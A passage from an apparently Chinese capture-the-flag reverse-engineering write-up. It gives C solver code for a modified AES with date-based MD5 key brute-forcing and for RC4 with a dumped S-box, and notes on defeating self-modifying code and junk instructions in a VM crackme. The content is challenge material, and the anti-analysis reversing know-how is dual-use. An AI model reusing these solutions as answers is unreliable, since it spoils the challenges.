        0xE1, 0xF8, 0x98, 0x11, 0x69, 0xD9, 0x8E, 0x94, 0x9B, 0x1E, 0x87, 0xE9, 0xCE, 0x55, 0x28, 0xDF,
        0x8C, 0xA1, 0x89, 0x0D, 0xBF, 0xE6, 0x42, 0x68, 0x41, 0x99, 0x2D, 0x0F, 0xB0, 0x54, 0xBB, 0x16
};

//逆S盒
unsigned char inv_S[256] = {
        0x52, 0x09, 0x6A, 0xD5, 0x30, 0x36, 0xA5, 0x38, 0xBF, 0x40, 0xA3, 0x9E, 0x81, 0xF3, 0xD7, 0xFB,
        0x7C, 0xE3, 0x39, 0x82, 0x9B, 0x2F, 0xFF, 0x87, 0x34, 0x8E, 0x43, 0x44, 0xC4, 0xDE, 0xE9, 0xCB,
        0x54, 0x7B, 0x94, 0x32, 0xA6, 0xC2, 0x23, 0x3D, 0xEE, 0x4C, 0x95, 0x0B, 0x42, 0xFA, 0xC3, 0x4E,
        0x08, 0x2E, 0xA1, 0x66, 0x28, 0xD9, 0x24, 0xB2, 0x76, 0x5B, 0xA2, 0x49, 0x6D, 0x8B, 0xD1, 0x25,
        0x72, 0xF8, 0xF6, 0x64, 0x86, 0x68, 0x98, 0x16, 0xD4, 0xA4, 0x5C, 0xCC, 0x5D, 0x65, 0xB6, 0x92,
        0x6C, 0x70, 0x48, 0x50, 0xFD, 0xED, 0xB9, 0xDA, 0x5E, 0x15, 0x46, 0x57, 0xA7, 0x8D, 0x9D, 0x84,
        0x90, 0xD8, 0xAB, 0x00, 0x8C, 0xBC, 0xD3, 0x0A, 0xF7, 0xE4, 0x58, 0x05, 0xB8, 0xB3, 0x45, 0x06,
        0xD0, 0x2C, 0x1E, 0x8F, 0xCA, 0x3F, 0x0F, 0x02, 0xC1, 0xAF, 0xBD, 0x03, 0x01, 0x13, 0x8A, 0x6B,
        0x3A, 0x91, 0x11, 0x41, 0x4F, 0x67, 0xDC, 0xEA, 0x97, 0xF2, 0xCF, 0xCE, 0xF0, 0xB4, 0xE6, 0x73,
        0x96, 0xAC, 0x74, 0x22, 0xE7, 0xAD, 0x35, 0x85, 0xE2, 0xF9, 0x37, 0xE8, 0x1C, 0x75, 0xDF, 0x6E,
        0x47, 0xF1, 0x1A, 0x71, 0x1D, 0x29, 0xC5, 0x89, 0x6F, 0xB7, 0x62, 0x0E, 0xAA, 0x18, 0xBE, 0x1B,
        0xFC, 0x56, 0x3E, 0x4B, 0xC6, 0xD2, 0x79, 0x20, 0x9A, 0xDB, 0xC0, 0xFE, 0x78, 0xCD, 0x5A, 0xF4,
        0x1F, 0xDD, 0xA8, 0x33, 0x88, 0x07, 0xC7, 0x31, 0xB1, 0x12, 0x10, 0x59, 0x27, 0x80, 0xEC, 0x5F,
        0x60, 0x51, 0x7F, 0xA9, 0x19, 0xB5, 0x4A, 0x0D, 0x2D, 0xE5, 0x7A, 0x9F, 0x93, 0xC9, 0x9C, 0xEF,
        0xA0, 0xE0, 0x3B, 0x4D, 0xAE, 0x2A, 0xF5, 0xB0, 0xC8, 0xEB, 0xBB, 0x3C, 0x83, 0x53, 0x99, 0x61,
        0x17, 0x2B, 0x04, 0x7E, 0xBA, 0x77, 0xD6, 0x26, 0xE1, 0x69, 0x14, 0x63, 0x55, 0x21, 0x0C, 0x7D
};

/* copy in[16] to state[4][4] */
int loadStateArray(uint8_t (*state)[4], const uint8_t *in) {
    for (int i = 0; i < 4; ++i) {
        for (int j = 0; j < 4; ++j) {
            state[j][i] = *in++;
        }
    }
    return 0;
}

/* copy state[4][4] to out[16] */
int storeStateArray(uint8_t (*state)[4], uint8_t *out) {
    for (int i = 0; i < 4; ++i) {
        for (int j = 0; j < 4; ++j) {
            *out++ = state[j][i];
        }
    }
    return 0;
}
//秘钥扩展
int keyExpansion(const uint8_t *key, uint32_t keyLen, AesKey *aesKey) {

    if (NULL == key || NULL == aesKey){
        printf("keyExpansion param is NULL\n");
        return -1;
    }

    if (keyLen != 16){
        printf("keyExpansion keyLen = %d, Not support.\n", keyLen);
        return -1;
    }

    uint32_t *w = aesKey->eK;  //加密秘钥
    uint32_t *v = aesKey->dK;  //解密秘钥

    /* keyLen is 16 Bytes, generate uint32_t W[44]. */

    /* W[0-3] */
    for (int i = 0; i < 4; ++i) {
        LOAD32H(w[i], key + 4*i);
    }

    /* W[4-43] */
    for (int i = 0; i < 10; ++i) {
        w[4] = w[0] ^ MIX(w[3]) ^ rcon[i];
        w[5] = w[1] ^ w[4];
        w[6] = w[2] ^ w[5];
        w[7] = w[3] ^ w[6];
        w += 4;
    }

    w = aesKey->eK+44 - 4;
    //解密秘钥矩阵为加密秘钥矩阵的倒序，方便使用，把ek的11个矩阵倒序排列分配给dk作为解密秘钥
    //即dk[0-3]=ek[41-44], dk[4-7]=ek[37-40]... dk[41-44]=ek[0-3]
    for (int j = 0; j < 11; ++j) {

        for (int i = 0; i < 4; ++i) {
            v[i] = w[i];
        }
        w -= 4;
        v += 4;
    }

    return 0;
}

// 轮秘钥加
int addRoundKey(uint8_t (*state)[4], const uint32_t *key) {
    uint8_t k[4][4];

    /* i: row, j: col */
    for (int i = 0; i < 4; ++i) {
        for (int j = 0; j < 4; ++j) {
            k[i][j] = (uint8_t) BYTE(key[j], 3 - i);  /* 把 uint32 key[4] 先转换为矩阵 uint8 k[4][4] */
            state[i][j] ^= k[i][j];
        }
    }

    return 0;
}

//字节替换
int subBytes(uint8_t (*state)[4]) {
    /* i: row, j: col */
    for (int i = 0; i < 4; ++i) {
        for (int j = 0; j < 4; ++j) {
            state[i][j] = S[state[i][j]]; //直接使用原始字节作为S盒数据下标
        }
    }

    return 0;
}

//逆字节替换
int invSubBytes(uint8_t (*state)[4]) {
    /* i: row, j: col */
    for (int i = 0; i < 4; ++i) {
        for (int j = 0; j < 4; ++j) {
            state[i][j] = inv_S[state[i][j]];
        }
    }
    return 0;
}

//行移位
int shiftRows(uint8_t (*state)[4]) {
    uint32_t block[4] = {0};

    /* i: row */
    for (int i = 0; i < 4; ++i) {
    //便于行循环移位，先把一行4字节拼成uint_32结构，移位后再转成独立的4个字节uint8_t
        LOAD32H(block[i], state[i]);
        block[i] = ROF32(block[i], 8*i);
        STORE32H(block[i], state[i]);
    }

    return 0;
}

//逆行移位
int invShiftRows(uint8_t (*state)[4]) {
    uint32_t block[4] = {0};

    /* i: row */
    for (int i = 0; i < 4; ++i) {
        LOAD32H(block[i], state[i]);
        block[i] = ROR32(block[i], 8*i);
        STORE32H(block[i], state[i]);
    }

    return 0;
}

/* Galois Field (256) Multiplication of two Bytes */
// 两字节的伽罗华域乘法运算
uint8_t GMul(uint8_t u, uint8_t v) {
    uint8_t p = 0;

    for (int i = 0; i < 8; ++i) {
        if (u & 0x01) {    //
            p ^= v;
        }

        int flag = (v & 0x80);
        v <<= 1;
        if (flag) {
            v ^= 0x1B; /* x^8 + x^4 + x^3 + x + 1 */
        }

        u >>= 1;
    }

    return p;
}

// 列混合
int mixColumns(uint8_t (*state)[4]) {
    uint8_t tmp[4][4];
    uint8_t M[4][4] = {{0x02, 0x03, 0x01, 0x01},
                       {0x01, 0x02, 0x03, 0x01},
                       {0x01, 0x01, 0x02, 0x03},
                       {0x03, 0x01, 0x01, 0x02}};

    /* copy state[4][4] to tmp[4][4] */
    for (int i = 0; i < 4; ++i) {
        for (int j = 0; j < 4; ++j){
            tmp[i][j] = state[i][j];
        }
    }

    for (int i = 0; i < 4; ++i) {
        for (int j = 0; j < 4; ++j) {  //伽罗华域加法和乘法
            state[i][j] = GMul(M[i][0], tmp[0][j]) ^ GMul(M[i][1], tmp[1][j])
                        ^ GMul(M[i][2], tmp[2][j]) ^ GMul(M[i][3], tmp[3][j]);
        }
    }

    return 0;
}

// 逆列混合
int invMixColumns(uint8_t (*state)[4]) {
    uint8_t tmp[4][4];
    uint8_t M[4][4] = {{0x0E, 0x0B, 0x0D, 0x09},
                       {0x09, 0x0E, 0x0B, 0x0D},
                       {0x0D, 0x09, 0x0E, 0x0B},
                       {0x0B, 0x0D, 0x09, 0x0E}};  //使用列混合矩阵的逆矩阵

    /* copy state[4][4] to tmp[4][4] */
    for (int i = 0; i < 4; ++i) {
        for (int j = 0; j < 4; ++j){
            tmp[i][j] = state[i][j];
        }
    }

    for (int i = 0; i < 4; ++i) {
        for (int j = 0; j < 4; ++j) {
            state[i][j] = GMul(M[i][0], tmp[0][j]) ^ GMul(M[i][1], tmp[1][j])
                          ^ GMul(M[i][2], tmp[2][j]) ^ GMul(M[i][3], tmp[3][j]);
        }
    }

    return 0;
}


void init(unsigned char *a1)
{
  unsigned int i; // [esp+0h] [ebp-8h]
  char v2; // [esp+7h] [ebp-1h]

  for ( i = 0; i < 0x10; i += 2 )
  {
    v2 = a1[i] ^ 5;
    a1[i] = a1[i + 1] ^ 5;
    a1[i + 1] = v2;
  }
}

void init2(unsigned char *flag)
{
  unsigned int i; // [esp+0h] [ebp-Ch]
  unsigned int i_1; // [esp+4h] [ebp-8h]
  char v3; // [esp+Bh] [ebp-1h]

  i_1 = 0;
  for ( i = 15; i_1 < i; --i )
  {
    v3 = flag[i_1] ^ 0xF;
    flag[i_1] = flag[i] ^ 0xF;
    flag[i] = v3;
    ++i_1;
  }
}

void init3(unsigned char *a1)
{
  unsigned int i; // [esp+0h] [ebp-8h]
  char v2; // [esp+7h] [ebp-1h]

  for ( i = 0; i < 0x10; i += 2 )
  {
    v2 = a1[i] ^ 5;
    a1[i] = a1[i + 1] ^ 5;
    a1[i + 1] = v2;
  }
}
// AES-128加密接口，输入key应为16字节长度，输入长度应该是16字节整倍数，
// 这样输出长度与输入长度相同，函数调用外部为输出数据分配内存
int aesEncrypt(const uint8_t *key, uint32_t keyLen, uint8_t *pt, uint8_t *ct, uint32_t len) {

    AesKey aesKey;
    uint8_t *pos = ct;
    const uint32_t *rk = aesKey.eK;  //解密秘钥指针
    uint8_t out[BLOCKSIZE] = {0};
    uint8_t actualKey[16] = {0};
    uint8_t state[4][4] = {0};

    if (NULL == key || NULL == pt || NULL == ct){
        printf("param err.\n");
        return -1;
    }

    if (keyLen > 16){
        printf("keyLen must be 16.\n");
        return -1;
    }

    if (len % BLOCKSIZE){
        printf("inLen is invalid.\n");
        return -1;
    }
    for (int j = 0; j < 16; j++) {
        printf("%X ", pt[j]);
    }
    printf("\n");
    memcpy(actualKey, key, keyLen);
    init(actualKey);
    keyExpansion(actualKey, 16, &aesKey);  // 秘钥扩展

	// 使用ECB模式循环加密多个分组长度的数据
    for (int i = 0; i < len; i += BLOCKSIZE) {
		// 把16字节的明文转换为4x4状态矩阵来进行处理

        init2(pt);

        for (int j = 0; j < 16; j++) {
            printf("%X ", pt[j]);
        }
        printf("\n");
        loadStateArray(state, pt);
        // 轮秘钥加
        addRoundKey(state, rk);

        for (int j = 1; j < 10; ++j) {
            rk += 4;
            subBytes(state);   // 字节替换
            shiftRows(state);  // 行移位
            mixColumns(state); // 列混合
            addRoundKey(state, rk); // 轮秘钥加
        }


        subBytes(state);    // 字节替换

        shiftRows(state);  // 行移位
        // 此处不进行列混合

        addRoundKey(state, rk+4); // 轮秘钥加

		// 把4x4状态矩阵转换为uint8_t一维数组输出保存
        storeStateArray(state, pos);
        init3(pos);
        pos += BLOCKSIZE;  // 加密数据内存指针移动到下一个分组
        pt += BLOCKSIZE;   // 明文数据指针移动到下一个分组
        rk = aesKey.eK;    // 恢复rk指针到秘钥初始位置
    }
    return 0;
}

// AES128解密， 参数要求同加密
int aesDecrypt(const uint8_t *key, uint32_t keyLen, uint8_t *ct, uint8_t *pt, uint32_t len) {
    AesKey aesKey;
    uint8_t *pos = pt;
    const uint32_t *rk = aesKey.dK;  //解密秘钥指针
    uint8_t out[BLOCKSIZE] = {0};
    uint8_t actualKey[16] = {0};
    uint8_t state[4][4] = {0};

    if (NULL == key || NULL == ct || NULL == pt){
        printf("param err.\n");
        return -1;
    }

    if (keyLen > 16){
        printf("keyLen must be 16.\n");
        return -1;
    }

    if (len % BLOCKSIZE){
        printf("inLen is invalid.\n");
        return -1;
    }

    memcpy(actualKey, key, keyLen);
    init(actualKey);
    keyExpansion(actualKey, 16, &aesKey);  //秘钥扩展，同加密

    for (int i = 0; i < len; i += BLOCKSIZE) {
        init3(ct);
        // 把16字节的密文转换为4x4状态矩阵来进行处理
        loadStateArray(state, ct);
        // 轮秘钥加，同加密
        addRoundKey(state, rk);

        for (int j = 1; j < 10; ++j) {
            rk += 4;
            invShiftRows(state);    // 逆行移位
            invSubBytes(state);     // 逆字节替换，这两步顺序可以颠倒
            addRoundKey(state, rk); // 轮秘钥加，同加密
            invMixColumns(state);   // 逆列混合
        }

        invSubBytes(state);   // 逆字节替换
        invShiftRows(state);  // 逆行移位
        // 此处没有逆列混合
        addRoundKey(state, rk+4);  // 轮秘钥加，同加密

        storeStateArray(state, pos);  // 保存明文数据
        init2(pos);
        pos += BLOCKSIZE;  // 输出数据内存指针移位分组长度
        ct += BLOCKSIZE;   // 输入数据内存指针移位分组长度
        rk = aesKey.dK;    // 恢复rk指针到秘钥初始位置
    }
    return 0;
}

struct tm
{
    int day;
    int month;
    int year;
};


int main() {
    unsigned char key[16] ={0};
    unsigned char a[]={0xCD,0x16,0xDB,0xB5,0xD1,0x2,0xA4,0x82,0x8E,0x59,0x73,0x9E,0x96,0x26,0x56,0xF2,0x16,0x8E,0x46,0xF2,0x55,0x7B,0x92,0x31,0x30,0xDC,0xAA,0x8A,0xF3,0x1C,0xA0,0xAA};
    unsigned char b[16];
    unsigned char c[16];
    unsigned int Src[3];
    unsigned char plain[] = {0x31,0x31,0x31,0x31,0x31,0x31,0x31,0x31,0x31,0x31,0x31,0x31,0x31,0x31,0x31,0x31};
    unsigned char aa[12]={0x4,0x0,0x0,0x0,0x2,0x0,0x0,0x0,0x7D,0x0,0x0,0x0};
    unsigned char out[16];
    unsigned char r[16]={0};

    struct tm t;
    void* ptr = &t;
    t.year = 124;

    for(int i = 0; i < 12; i++) {
        for (int j = 1; j < 32; j++) {
            t.month = i;
            t.day = j;
            memset(Src, 0, 12);
            memset(key,0, 16);
            memcpy(Src, ptr, 12);
            md5((uint8_t*)Src, 12, key);
            for(int k = 0; k < 16; k++) {
                key[k] ^= 0x14;
                key[k] ^= 0x11;
            }
            aesDecrypt(key,16,a,c,32);
                for(int i = 0; i < 32; i++) {
                    printf("%c",*((char *)c+i)&0xff);
                }
            printf("\n");
        }
    }


}
```

## Room 0

​​

看似过程非常简单

​​

但是这个算法应该是不可逆的，所以肯定隐藏了其他的秘密（其实最后发现是爆破，让他出现除 0 错误

​​

发现了一个 rwx 的 enc 段，有 w 又有 x，很有可能是 smc

​​

try catch 隐藏了 smc 操作，后面的很多地方都出现了花，修复后继续看代码

​​

看起来是与输入的 key 循环异或

key 不可逆 那怎么办呢？

​​

函数头前 3 字节基本固定，只需要确定第 4 字节，利用 idapython 尝试后得到密码

​​

idapython 进行异或解密，去除花指令得到 enc 函数

​​

一个 rc4，不过貌似有点问题，key 在运算过程中变掉了，所以我直接取出最后的 sbox 和 key 进行解密

```python
#include<stdio.h>
/*初始化函数*/
void rc4_init(unsigned char*s,unsigned char*key, unsigned long Len)
{
    int i=0,j=0;
    //char k[256]={0};
    unsigned char k[256]={0};
    unsigned char tmp=0;
    for(i=0;i<256;i++) {
        s[i]=i;
        k[i]=key[i%Len];
    }
    for(i=0;i<256;i++) {
        j=(j+s[i]+k[i])%256;
        tmp=s[i];
        s[i]=s[j];//交换s[i]和s[j]
        s[j]=tmp;
    }
}


/*加解密*/
void rc4_crypt(unsigned char*s,unsigned char*Data,unsigned long Len, unsigned char* key)
{
    int i=0,j=0,t=0;
    unsigned long k=0;
    unsigned char tmp;
    for(k=0;k<Len;k++)
    {
        i=(i+1)%256;

        j=(j+s[i])%256;

        tmp=s[i];
        s[i]=s[j];//交换s[x]和s[y]
        s[j]=tmp;
        t=(s[i]+s[j])%256;
        Data[k]^=(s[t] ^ key[i%8]) ;
    }
}


int main() {
    unsigned char key[]={ 0xD4,0x35,0x6D,0xF8,0xF8,0x6D,0x35,0xD4};
    unsigned char enc[]={0x22,0xC4,0xA0,0x5A,0xDE,0xED,0x62,0x5E,0x25,0xE2,0x6D,0xA6,0x5,0xA7,0x20,0x8D,0x7D,0x99,0x52,0x3E,0x8C,0xA7,0x7F,0xFA,0x9,0xD8,0x62,0xDB,0x0,0x80,0xC2,0xA9};
    unsigned char s[256] = {0xD4,0x8,0x1F,0x74,0x70,0x1C,0x64,0xF8,0x8A,0x4,0x80,0x10,0x19,0x31,0x25,0xFE,0x5D,0x72,0x46,0x78,0x5,0x2F,0xAB,0xF,0x17,0xD0,0x57,0x3C,0x7E,0xF1,0xE4,0xCF,0xB8,0x21,0x69,0x23,0xF9,0xD9,0xEB,0x6C,0x92,0x71,0x0,0x20,0xB2,0x1,0x86,0x2C,0x56,0x7A,0x50,0xDA,0x99,0x3B,0x13,0x26,0x3E,0x28,0xBA,0xE7,0x6A,0xC5,0x93,0x95,0x5F,0x4F,0x54,0xBF,0xE5,0x97,0x5C,0x32,0x67,0xAF,0x2,0xA1,0xA4,0x9B,0xA9,0xD5,0x60,0x8D,0x2D,0x45,0xE3,0x38,0x4B,0x4E,0xAE,0xD8,0xA2,0xAC,0x33,0x22,0x9E,0xB7,0x63,0xB5,0xE2,0xA0,0xBC,0xD7,0xC9,0xB1,0xED,0x83,0x88,0x4A,0xC3,0x14,0xEE,0x48,0xA8,0x1B,0xFC,0x85,0xEF,0x49,0x7C,0x9,0xA7,0xCD,0x6F,0xC7,0xCE,0xB4,0xFB,0x66,0xE1,0x68,0xC1,0x81,0xBE,0xF4,0x1E,0x44,0xAA,0x51,0x8F,0xFA,0xC0,0x11,0x96,0x18,0x6E,0xE0,0x59,0xA5,0x98,0xCC,0x82,0x30,0x16,0xE8,0x1D,0x6D,0xDF,0x8B,0xA3,0x27,0xD1,0x4D,0x9F,0xB0,0x52,0xC,0x58,0x5E,0x12,0xE,0x65,0x40,0xF2,0x15,0x7F,0x41,0x73,0xC2,0xCB,0xB6,0x53,0x3A,0x75,0xE9,0x77,0x2E,0xD6,0x42,0xC4,0x90,0x4C,0x7,0x5A,0x2A,0x6B,0x29,0xC8,0x89,0x9D,0x2B,0xF0,0xBD,0x3,0x24,0x91,0x36,0x94,0x37,0x87,0xD2,0x61,0xD,0xE6,0xAD,0xA6,0x8E,0xB3,0xF3,0xF5,0x9A,0xFD,0x35,0xC6,0xF7,0x7D,0xB,0xF6,0x84,0x1A,0x55,0xD3,0x9C,0xFF,0x76,0xB9,0x6,0xEA,0xBB,0x5B,0xCA,0xDB,0x34,0xA,0xEC,0x39,0xDC,0x43,0x47,0xDE,0xDD,0x3F,0x62,0x3D,0x7B,0x8C,0x79};
    // rc4_init(s,key,8);
    rc4_crypt(s,enc,32,key);
    for(int i = 0; i < 32; i++) {
        printf("%c",enc[i]);
    }
}
```

‍

## Canon

​`我勒个叠叠乐`​

​​

简易的 vm

​​

加密函数是凯撒加栅栏加 rc4 加 base64 加异或，叠叠乐

​​

base64 的码表被偷换掉了

根据加密写出各个解密

```c
#include<stdio.h>

/*初始化函数*/
void rc4_init(unsigned char*s, unsigned char*key, unsigned long Len)
{
    int i = 0, j = 0;
    unsigned char k[256] = { 0 };
    unsigned char tmp = 0;
    for (i = 0; i<256; i++)
    {
        s[i] = i;
        k[i] = key[i%Len];
    }
    for (i = 0; i<256; i++)
    {
        j = (j + s[i] + k[i]) % 256;
        tmp = s[i];
        s[i] = s[j];//交换s[i]和s[j]
        s[j] = tmp;
    }
}

/*加解密*/
void rc4_crypt(unsigned char*s, unsigned char*Data, unsigned long Len)
{
    int i = 0, j = 0, t = 0;
    unsigned long k = 0;
    unsigned char tmp;
    unsigned char tmp1[100]= {0};


    for (k = 0; k<Len; k++)
    {
        i = (i + 1) % 256;
        j = (j + s[i]) % 256;
        tmp = s[i];
        s[i] = s[j];//交换s[x]和s[y]
        s[j] = tmp;
        t = (s[i] + s[j]) % 256;
        // Data[k] ^= s[t];
        printf("0x%X, ", ((Data[k] - 57 + 256) ^ s[t])%256);
        // printf("%c", ((Data[k] - 57 + 256) ^ s[t])%256);
        // out[k] = (tmp1[k] - 57 + 256) ^ s[t];
    }
}

void dec(unsigned char* plain1, unsigned char* plain2,int len1) {
    unsigned char a;
    for (int nn = 0; nn < *plain2 % 10 + 2; ++nn )
    {
        a = plain1[0];
        for (int i1 = 0; i1 < len1-1; ++i1 ) {
            plain1[i1] = plain1[i1 + 1];
        }
        plain1[len1-1] = a;
    }
    for (int nn = 0; nn < len1; ++nn )
    {
        printf("0x%X, ",plain1[nn]);
        // printf("%c",plain1[nn]);
    }
}
void xora(unsigned char* enc, unsigned char* key, int len, int lne2) {
    for (int i1 = 0; i1 < len; ++i1 )
    // v26[i1] = (plain2[i1 % len2] + 57) ^ plain1[i1];
    printf("0x%X, ",enc[i1] ^ (key[i1 % lne2]+57));
    // printf("%c",enc[i1] ^ (key[i1 % lne2]+57));
}

void raildecrypt(unsigned char* ciphertext, unsigned char* key, int size) {
    int k_1 = key[0] % 10 + 2;
    int m = size / k_1;
    int r = size % k_1;
    unsigned char Block[100][100] = {0};
    unsigned char plain[100] = {0};
    int i_2 = 0;
    printf("%d ", k_1);
    for (int ii = 0; ii < k_1; ++ii) {
        int rows = (ii < r) ? m + 1 : m;
        for (int jj = 0; jj < rows; ++jj) {
            if (i_2 < size) {
                Block[ii][jj] = ciphertext[i_2++];
            }
        }
    }
    int index = 0;
    for (int col = 0; col <= m; ++col) {
        for (int ii = 0; ii < k_1; ++ii) {
            int rows = (ii < r) ? m + 1 : m;
            if (col < rows && index < size) {
                plain[index++] = Block[ii][col];
            }
        }
    }

    for (int i = 0; i < size; ++i) {
        ciphertext[i] = plain[i];
        printf("0x%X, ",ciphertext[i]);
        // printf("%c",ciphertext[i]);
    }
}
unsigned char* decrypt(unsigned char* cipher, unsigned char* key, int len ,int key_len ) {
    unsigned char* plain = (unsigned char*)malloc(len + 1);

    for (int i = 0; i < len; ++i) {
        char k = key[i % key_len];
        char c = cipher[i];

        if (c >= 'A' && c <= 'Z') {
            int offset = (c - k - 'A') % 26;
            if (offset < 0) offset += 26;
            plain[i] = offset + 'A';
        } else if (c >= 'a' && c <= 'z') {
            int offset = (c - k - 'a') % 26;
            if (offset < 0) offset += 26;
            plain[i] = offset + 'a';
        } else if (c >= '0' && c <= '9') {
            int offset = (c - k - '0') % 10;
            if (offset < 0) offset += 10;
            plain[i] = offset + '0';
        } else {
            plain[i] = c;
        }
        printf("0x%X, ",plain[i]);
    }
    return plain;
}
```

挺蒙蔽的，算法都是对的，就是梭不出来脚本，貌似是 base 的问题？（

不管了，手搓

```c
int main() {
    unsigned char v15[8];
    unsigned char v16[3];
    unsigned char v11[3];
    int n8;
    v15[0] = 1;
    v15[1] = 5;
    v15[2] = 6;
    v15[3] = 3;
    v15[4] = 4;
    v15[5] = 1;
    v15[6] = 4;
    v15[7] = 5;
    v16[0] = 0;
    v16[1] = 1;
    v16[2] = 2;
    v11[0] = 0;
    v11[1] = 0;
    v11[2] = 0;

    for (int i = 0; i < 8; ++i )
    {
      for (int j = 0; j < 3; ++j )
      {
        if ( i >= v16[j] )
        {
          n8 = v11[j];
          if ( n8 < 8 )
          {
                // printf("%d, ",v15[n8]);

            if ( j )
            {
              if ( j == 1 )
              {
                // printf("enc1 op-> %d\n",v15[n8]);
                // printf("%d, ",v15[n8]);
                // printf("1, ");

              }
              else if ( j == 2 )
              {
                // printf("enc2 op-> %d\n",v15[n8]);
                // printf("%d, ",v15[n8]);
                // printf("2, ");

              }
            }
            else
            {
                // printf("enc3 op-> %d\n",v15[n8]);
                // printf("%d, ",v15[8]);
                // printf("3, ");


            }
            ++v11[j];
          }
        }
      }
    }
}
```

获取执行流，手动逆向（

```c
0
0x57,0x67,0x76,0x44,0x6d,0x73,0x73,0x45,0x76,0x63,0x59,0x33,0x32,0x36,0x62,0x48,0x6f,0x33,0x6e,0x4e,0x72,0x6f,0x33,0x76,0x58,0x76,0x76,0x66,0x6d,0x67,0x72,0x7a
0x67,0x58,0x2b,0x52,0x69,0x39,0x50,0x47,0x3d,0x62,0x74,0x35,0x3d,0x30,0x30,0x42,0x36,0x68,0x73,0x63,0x50,0x51,0x4f,0x4c
0x54,0x36,0x62,0x48,0x67,0x55,0x50,0x4c,0x32,0x67,0x58,0x55,0x64,0x3d,0x78,0x54,0x3d,0x46,0x4e,0x48,0x74,0x50,0x7a,0x56
1  ->3 1 1
0x57,0x67,0x76,0x44,0x6d,0x73,0x73,0x45,0x76,0x63,0x59,0x33,0x32,0x36,0x62,0x48,0x6f,0x33,0x6e,0x4e,0x72,0x6f,0x33,0x76,0x58,0x76,0x76,0x66,0x6d,0x67,0x72,0x7a
0x67,0x58,0x2b,0x52,0x69,0x39,0x50,0x47,0x3d,0x62,0x74,0x35,0x3d,0x30,0x30,0x42,0x36,0x68,0x73,0x63,0x50,0x51,0x4f,0x4c
0x4B, 0x33, 0x6E, 0x52, 0x62, 0x4A, 0x45, 0x55, 0x34, 0x6C, 0x4D, 0x56, 0x66, 0x3D, 0x64, 0x5A, 0x3D, 0x47, 0x48, 0x48, 0x6A, 0x49, 0x61, 0x48
2 -> 2 3 4
0x57,0x67,0x76,0x44,0x6d,0x73,0x73,0x45,0x76,0x63,0x59,0x33,0x32,0x36,0x62,0x48,0x6f,0x33,0x6e,0x4e,0x72,0x6f,0x33,0x76,0x58,0x76,0x76,0x66,0x6d,0x67,0x72,0x7a
0x47, 0x3D, 0x62, 0x74, 0x35, 0x3D, 0x30, 0x30, 0x42, 0x36, 0x68, 0x73, 0x63, 0x50, 0x51, 0x4F, 0x4C, 0x67, 0x58, 0x2B, 0x52, 0x69, 0x39, 0x50
0x4B, 0x33, 0x6E, 0x52, 0x62, 0x4A, 0x45, 0x55, 0x34, 0x6C, 0x4D, 0x56, 0x66, 0x3D, 0x64, 0x5A, 0x3D, 0x47, 0x48, 0x48, 0x6A, 0x49, 0x61, 0x48
3-> 1 2 5
0x2B, 0x36, 0x4C, 0x45, 0x6E, 0x6E, 0x66, 0x62, 0x70, 0x47, 0x4A, 0x77, 0x6C, 0x37, 0x6B, 0x77, 0x47, 0x63, 0x3D, 0x54, 0x78, 0x49, 0x3D, 0x4E
0x47, 0x3D, 0x62, 0x74, 0x35, 0x3D, 0x30, 0x30, 0x42, 0x36, 0x68, 0x73, 0x63, 0x50, 0x51, 0x4F, 0x4C, 0x67, 0x58, 0x2B, 0x52, 0x69, 0x39, 0x50
0x4B, 0x33, 0x6E, 0x52, 0x62, 0x4A, 0x45, 0x55, 0x34, 0x6C, 0x4D, 0x56, 0x66, 0x3D, 0x64, 0x5A, 0x3D, 0x47, 0x48, 0x48, 0x6A, 0x49, 0x61, 0x48
4-> 3 1 4
0x2B, 0x36, 0x4C, 0x45, 0x6E, 0x6E, 0x66, 0x62, 0x70, 0x47, 0x4A, 0x77, 0x6C, 0x37, 0x6B, 0x77, 0x47, 0x63, 0x3D, 0x54, 0x78, 0x49, 0x3D, 0x4E
0x47, 0x3D, 0x62, 0x74, 0x35, 0x3D, 0x30, 0x30, 0x42, 0x36, 0x68, 0x73, 0x63, 0x50, 0x51, 0x4F, 0x4C, 0x67, 0x58, 0x2B, 0x52, 0x69, 0x39, 0x50
0x4A, 0x45, 0x55, 0x34, 0x6C, 0x4D, 0x56, 0x66, 0x3D, 0x64, 0x5A, 0x3D, 0x47, 0x48, 0x48, 0x6A, 0x49, 0x61, 0x48, 0x4B, 0x33, 0x6E, 0x52, 0x62

5-> 2 3 1
0x2B, 0x36, 0x4C, 0x45, 0x6E, 0x6E, 0x66, 0x62, 0x70, 0x47, 0x4A, 0x77, 0x6C, 0x37, 0x6B, 0x77, 0x47, 0x63, 0x3D, 0x54, 0x78, 0x49, 0x3D, 0x4E
0x4B, 0x3D, 0x75, 0x74, 0x37, 0x3D, 0x34, 0x38, 0x53, 0x36, 0x76, 0x6A, 0x6A, 0x56, 0x57, 0x4D, 0x51, 0x6E, 0x44, 0x2B, 0x53, 0x63, 0x37, 0x56
0x4A, 0x45, 0x55, 0x34, 0x6C, 0x4D, 0x56, 0x66, 0x3D, 0x64, 0x5A, 0x3D, 0x47, 0x48, 0x48, 0x6A, 0x49, 0x61, 0x48, 0x4B, 0x33, 0x6E, 0x52, 0x62

6 -> 1 2 4
0x62, 0x70, 0x47, 0x4A, 0x77, 0x6C, 0x37, 0x6B, 0x77, 0x47, 0x63, 0x3D, 0x54, 0x78, 0x49, 0x3D, 0x4E, 0x2B, 0x36, 0x4C, 0x45, 0x6E, 0x6E, 0x66
